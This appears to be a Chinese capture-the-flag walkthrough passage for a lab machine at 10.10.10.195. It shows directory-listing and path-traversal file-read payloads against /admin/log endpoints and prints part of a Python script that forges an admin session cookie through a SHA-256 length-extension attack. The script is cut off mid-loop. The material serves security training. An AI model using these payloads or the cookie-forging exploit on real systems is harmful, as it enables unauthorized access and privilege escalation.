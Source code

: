 这里明显存在文件读取和目录泄露的漏洞，对输入的参数未作任何过滤

*   测试漏洞是否存在
    
    测试目录泄露
    

漏洞位置：/admin/log/dir

参数：godir=.

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicklAS2T2URph3msv2bL7Sty5aBwveU6S6TVbD3Eiby2NehIsm5Xuiat832CEFSz3L7X3kdatGibKjpA/640?wx_fmt=png)

测试文件读取

漏洞位置: /admin/log/view 

参数: logfile=../app.ini

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicklAS2T2URph3msv2bL7StJTsR0KO4U36Ribtc9QWIqjcO9AibSiaGW4PfbKXcTOYo2hJNwawoXsibzw/640?wx_fmt=png)

编写利用脚本

```
#!/usr/bin/env python3
import base64
import binascii
import requests
import subprocess
from cmd import Cmd
class Term(Cmd):
prompt = "intense> "
def __init__(self):
Cmd.__init__(self)
# Get Cookie
resp = requests.post(
"http://10.10.10.195/postlogin",
data={"username": "guest", "password": "guest"},
headers={
"Content-Type": "application/x-www-form-urlencoded; charset=UTF8"
},
)
orig_cookie = resp.headers["Set-Cookie"].split("=", 1)[1]
cookie_data_b64, cookie_sig_b64 = orig_cookie.split(".")
cookie_data = base64.b64decode(cookie_data_b64).decode()
cookie_sig_hex =
binascii.hexlify(base64.b64decode(cookie_sig_b64)).decode()
print("[+] Guest Cookie acquired")
# Run hash extender
cmd = "/opt/hash_extender/hash_extender --secret-min 8 --secret-max 15 "
cmd += "--data
username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c
186ec; "
cmd += f"--signature {cookie_sig_hex} -f sha256 --table "
cmd += "--append
;username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2
971105;"
hash_extender = (
subprocess.check_output(cmd.split(" ")).strip().decode().split("\n")
)
print("[*] Generated hash extensions for 8 to 15 byte secrets")
for test_hash in hash_extender:
new_cookie_data = base64.b64encode(
binascii.unhexlify(test_hash.split(" ")[-1])
).decode()
new_cookie_sig = base64.b64encode(
binascii.unhexlify(test_hash.split(" ")[-2])
).decode()
```